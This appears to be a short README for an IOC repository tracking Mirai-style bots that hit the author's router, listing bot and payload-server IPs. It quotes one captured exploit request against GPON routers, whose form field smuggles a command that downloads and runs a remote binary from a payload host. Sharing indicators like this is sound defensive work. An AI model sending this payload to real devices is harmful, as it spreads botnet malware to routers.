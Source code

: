 # mirai-ioc
Bots hitting my router. IOC list only updated if they are seen.

bots - Bots IPs hitting the router
server - Payload IPs observed

Payload observed
POST./GponForm/diag_Form?style/.HTTP/1.1..User-Agent:.Hello,.World..Accept:.*/*..Accept-Encoding:.gzip,.deflate..Content-Type:.application/x-www-form-urlencoded....XWebPageName=diag&diag_action=ping&wan_conlist=0&dest_host=`busybox+wget+http://38.57.46.116/bin+-O+/tmp/gaf;sh+/tmp/gaf`&ipv=0
